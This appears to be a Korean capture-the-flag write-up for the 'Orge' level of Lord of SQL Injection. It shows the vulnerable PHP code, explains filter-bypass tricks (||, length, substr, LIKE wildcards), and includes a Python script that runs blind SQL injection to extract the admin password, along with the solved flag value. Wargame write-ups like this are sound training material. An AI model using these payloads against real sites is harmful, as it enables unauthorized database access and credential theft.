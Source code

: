 # **Orge**
## 1. 문제의도
or 과 and 없이 인젝션을 할 수 있는가?
정확히 admin의 password 필드의 값을 얻어 낼 수 있는가?

## 2. 코드
    <?php 
      include "./config.php"; 
      login_chk(); 
      dbconnect(); 

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~"); 

      if(preg_match('/or|and/i', $_GET[pw]))
        exit("HeHe"); 
      
      $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if($result['id'])
        echo "<h2>Hello {$result[id]}</h2>"; 
   
      $_GET[pw] = addslashes($_GET[pw]); 
      $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if(($result['pw']) && ($result['pw'] == $_GET['pw']))
        solve("orge"); 
      
      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
이전 다크엘프 문제와 동일하게 or과 and를 사용할 수 없습니다.

    prob | _ | . | () | or | and

### 2. query

    select id from prob_orge where id='guest' and pw='{$_GET[pw]}' # 이전 쿼리

    select pw from prob_orge where id='admin' and pw='{$_GET[pw]}' # 결론적인 쿼리

접근 할 수 있는 부분 : pw GET parameter

### 3. if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 

pw가 GET 파라미터의 pw와 같을 때, 클리어 처리가 됩니다. 따라서 우리는 정확히 패스워드를 알 수 있어야 합니다.

### 4. $_GET[pw] = addslashes($_GET[pw]); 

addslashes는 특수문자로 부터 발생할 수 있는 에러를 방지하고자 사용합니다.

    example)
    before:
      'test'입니당

    after:
      \'test\'입니당

## 3. Solution
우리가 현재 놓인 상황은 계속 사용해 오던 or 와 and를 사용할 수 없다는 것과 패스워드를 얻어 오는 것 뿐만 아니라 우리가 그것이 무엇인지를 알 수 있어야 한다는 점입니다.

### 1. || 와 && 사용
우리는 or 과 and 대신 C에서 프로그래밍을 할 때처럼 || 그리고 &&로 대신하여 사용할 수 있다.  
|| 는 Oracle 에서는 CONCAT 과 같이 사용되는 것 같기도 하다.

    pw="password" and id="admin" 과 pw="password"&&id="admin" 은 같은 맥락이다.

### 2. 패스워드의 길이를 알아보자, length
MySQL을 하다보면 length 라는 함수가 있음을 알 수 있습니다.  
초반에 시도 했던 영어 writeup 에 적어 놨던걸로 기억하지만 다시 정리 해보자면  
length (str) 의 형태를 띄는 함수입니다. str의 길이를 반환 해줍니다. 따라서 아래와 같은 조건식은 성립합니다.

    (pw="password" 일때)
    length(pw)=8 // 성립!!

### 3. 조건에 따라서 다른 값, if
우리는 프로그래밍을 할 때 if라는 것을 많이 사용합니다.  
if의 조건문이 성립하면 아래의 내용을 실행하고  
아닐경우 else의 내용을 실행합니다. 

이것도 그와 매우 흡사합니다.  
if(조건문, true반환값, false반환값)

이해가 안 된다면 그럼 아래의 예제를 보면 이해가 될것입니다.  

    if(1=1,1,0) // 1 반환
    if(1=0,1,0) // 0 반환

### 4. 문자열을 잘라보자, substr, etc...
우리는 문자열 전부를 알지는 못하기 때문에 일부분만을 이용해서 전체를 알아보려는 시도를 할 수 있다.  
그러기 위해 우리는 mysql의 이런 함수들을 사용할 수 있다.

    mid | substr | substring | left | right

    기타 문자연 처리 함수들

    LTRIM | RTRIM | TRIM // 왼쪽, 오른쪽의 공백을 지워준다.

    replace(src, from, to) src에서 from을 to로 치환합니다.

    instr(src, find_str) src에서 find_str을 처음 찾은 인덱스를 반환합니다.

    ascii(char) char의 아스키 값을 반환합니다

### 5. 와일드 카드
우리는 like 함수를 통해서 문자열에 무엇이 속해있는지 같은지를 체크할 수 있습니다. str%, %str, %str%, __(여백문자)

    pw="password" 일때

    pw like "p%" // true
    pw like "pa%" // true

    pw like "________" // true

    pw like "__" // false

    pw like "%o_d" // true


### My Answers :

우리는 이 문제를 풀때에 있어 브라우저의 주소의 페이로드를 바꿔가며 입력해 보는 방법은 할 수 없습니다. 아, 물론 삽질 정신이 가득한 사람이라면은 가능 하겠지만.. 전 Python 코드를 작성하여 찾아 보았습니다.

    #-*- coidng: utf-8 -*-
    #Los / 07. Orge

    import urllib2

    result = '' # I will save key to this var
    url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw={}" # url. we can insert data into {} by using format()
    length = 0

    def getContent(value, purpose):
	    req = urllib2.Request(url.format(value))

	    req.add_header('User-Agent', "Mozila/5.0")  # Browser info
	    req.add_header('Cookie', 'PHPSESSID=uvjnp5kaltqk6o7q6v629hbqp4')  # PHP SESSION ID
	    req.add_header('__cfduid', 'd94c5132db81e12788364d9a966964cd31507633746')

	    content = urllib2.urlopen(req).read()

	    if content.find(purpose) != -1:
		    return True

    for i in range(1,1000):
	    print i
	  
        if getContent("'||length(pw)='" + str(i), "Hello admin"): # guest pw length = 15 & admin pw length = 8
		length = i
		print "length is", length
		break

    for i in range(0, length):
        for j in range(32,127): # 표시 가능한 구역
		if j == 37:
		  continue
		print result + chr(j)
		if getContent("'||pw like '" + result + chr(j) + '%25', "Hello admin"):
		  result += chr(j)
		  print "find key ::", i, j, "::", result
		  break

    if len(result) == length:
	  print "Failed.."
	  exit(0)

    print "success", result.lower()

    # Result 6c864dec
      
**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL/blob/master/Security/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**